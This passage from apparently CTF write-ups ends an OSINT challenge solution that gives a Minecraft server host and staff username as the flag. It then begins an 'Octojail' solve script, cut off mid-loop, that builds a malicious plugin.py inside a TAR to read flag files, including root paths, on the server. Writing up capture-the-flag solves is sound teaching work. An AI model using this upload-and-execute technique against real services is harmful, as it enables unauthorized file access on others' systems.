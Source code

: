 Per the second allowed format:

```
CTF{server_host:owner_username}
CTF{play.thepen-mc.net:Leaky_Tandos}
```

---

## 5) Common pitfalls & tips

* **Chunk vs block coords:** If you go the coordinate route, the challenge warns these are **chunk** coordinates (16×16 blocks), not block positions.
* **Case & charset:** The flag is **case-insensitive** and ASCII only.
* **False positives:** There are many prison servers; the unique combo of staff names (esp. **Leaky\_Tandos**) is the key disambiguator.

---

## Final flag

**`CTF{play.thepen-mc.net:Leaky_Tandos}`**

---

# Writeup - Octojail (Misc)
## Solve + Solve Script
Octojail is super friendly: it unpacks whatever TAR you send (as an octal-encoded bytestream), then imports and runs plugin.run() if it finds uploads/plugin.py or plugin.py. So we can just ship a tiny TAR containing plugin.py that reads the flag and prints it. 

```
#!/usr/bin/env python3
# Builds a TAR with a malicious plugin.py, then prints it as octal triplets (one line).

import io, tarfile, time

# Keep plugin.run() fast — the jail kills everything after ~6 seconds.
PLUGIN = r'''# plugin.py
def run():
    import os, glob
    # Try common flag paths fast, then stop.
    candidates = [
        "/flag", "/flag.txt", "flag", "flag.txt",
        "/app/flag", "/app/flag.txt",
        "/home/ctf/flag", "/home/ctf/flag.txt",
        "/root/flag", "/root/flag.txt",
    ]
    for p in candidates:
        try:
            with open(p, "r") as f:
                print(f.read().strip())
                return
        except Exception:
            pass
    # Tiny fallback: scan just a few shallow dirs for files with 'flag' in the name.
    for base in ("/", "/app", "/home", "/workspace", "/srv"):
        try:
            for dirpath, dirs, files in os.walk(base):
                # prune deep trees to stay under the alarm
                if dirpath.count("/") > 3:
                    dirs[:] = []
                for name in files:
```